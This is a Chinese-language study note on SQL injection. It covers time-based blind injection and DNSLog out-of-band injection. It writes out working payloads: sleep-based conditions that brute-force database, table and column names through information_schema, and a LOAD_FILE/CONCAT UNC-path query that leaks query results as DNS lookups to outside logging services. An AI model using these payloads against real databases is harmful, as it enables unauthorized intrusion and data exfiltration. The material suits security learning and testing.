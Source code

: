 ####  基于时间的盲注

**适用场景**：没有数据回显，条件正确与否结果一样。使用sleep时正确sql语句会延迟，错误不会延迟。
**利用方式**：构造判断条件，添加**sleep**，逐个猜测

- 第一个步：闭合引号，因为页面同样的，所以我们需要构造` id=1’ and sleep(5) #`,一旦有延迟5秒，那我们就构造了正确的sql语句。通过不断试引号括号注释，找到闭和前面注释后面的方式。

- 先爆破出数据库名字符长度：使用if函数，`and if((length(database()) = m),sleep(1),0)`，睡眠时间不要太短，1秒就可以了。
- 爆破出当前数据库名： `and if((ascii(substr(database(),n,1)) > m),sleep(1),0)`

- 爆破出当前数据库的表个数：`and if((select count(table_name) as a from information_schema.tables where table_schema=database() having a={0}),sleep(1),0)`

- 爆破每一个表的表名长度：`if((select length(table_name) from information_schema.tables where table_schema=database() limit {0},1)={1},sleep(1),0)`
- 爆破各个表名：`if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit {0},1),{1},1))>{2}),sleep(1),0)`
- 爆破表的列名。

- 爆破数据

### DNSLog注入
- DNSLog

    - 当要访问一个网站，一般我们只知道域名，但是不知道IP。那么我们可以先访问DNS服务，通过域名得到一个IP地址，再用IP去访问网站所在的服务器，从而可以显示网页。
    - 而在访问DNS服务的时候，会有一个日志记录下什么时候访问的、请求的域名以及域名对应的IP信息等，这个日志就是**DNSLog**。我把我们想要的信息加到域名请求里面。
    
- DNSlog平台：

    - 国外 http://www.dnslog.cn/   [http://ceye.io](http://ceye.io/)
    
    - 国内：

- DNSLog注入流程

    - 把select load_file()注入到数据库，访问文件

    - unc构建dns服务器地址，假装访问文件，产生dnslog

        ```sql
        SELECT LOAD_FILE(CONCAT('\\\\',(要查询的语句),'.xx.xx.xx\\abc'));
        ```

    - 执行的语句：

        - ![image-20220810213934091](sql注入.assets/image-20220810213934091.png)
